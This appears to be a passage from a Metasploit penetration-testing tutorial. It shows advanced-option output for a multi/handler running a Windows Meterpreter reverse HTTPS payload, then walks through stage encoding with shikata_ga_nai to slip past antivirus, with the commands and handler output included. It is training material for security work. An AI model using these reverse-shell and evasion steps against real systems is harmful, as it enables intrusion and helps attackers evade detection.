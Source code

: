 With an understanding of the basic functionality of the Metasploit Framework and the meterpreter payload, we can proceed to more advanced options, which we can display with the show advanced command. Let's investigate a few of the more interesting options.

```
msf6 exploit(multi/handler) > show advanced

Module advanced options (exploit/multi/handler):

   Name                    Current Setting  Required  Description
   ----                    ---------------  --------  -----------
   ContextInformationFile                   no        The information file that contains context information
   DisablePayloadHandler   false            no        Disable the handler code for the selected payload
   EnableContextEncoding   false            no        Use transient context when encoding payloads
   ExitOnSession           true             yes       Return from the exploit after a session has been created
   ListenerTimeout         0                no        The maximum number of seconds to wait for new sessions
   VERBOSE                 false            no        Enable detailed status messages
   WORKSPACE                                no        Specify the workspace for this module
   WfsDelay                0                no        Additional delay when waiting for a session


Payload advanced options (windows/meterpreter/reverse_https):

   Name                         Current Setting                                                Required  Description
   ----                         ---------------                                                --------  -----------
   AutoLoadStdapi               true                                                           yes       Automatically load the Stdapi extension
   AutoRunScript                                                                               no        A script to run automatically on session creation.
   AutoSystemInfo               true                                                           yes       Automatically capture system information on initialization.
   AutoUnhookProcess            false                                                          yes       Automatically load the unhook extension and unhook the process
   ...
```

First, let's take a look at some advanced encoding options. In previous examples, we chose to encode the first stage of our shellcode that we placed into the exploit. Since the second stage of the Meterpreter payload is much larger and contains more potential signatures, it could potentially be flagged by various antivirus solutions, so we may opt to encode the second stage as well.

We could use _EnableStageEncoding_ together with _StageEncoder_ to encode the second stage and possibly bypass detection. To do this, we set _EnableStageEncoding_ to "true" and set _StageEncoder_ to our desired encoder, in this case, "x86/shikata_ga_nai":

```
msf6 exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf6 exploit(multi/handler) > set StageEncoder x86/shikata_ga_nai
StageEncoder => x86/shikata_ga_nai
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.118.2:443
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > 
[*] https://192.168.118.2:443 handling request from 192.168.120.11; (UUID: 77vpdgjz) Encoded stage with x86/shikata_ga_nai
```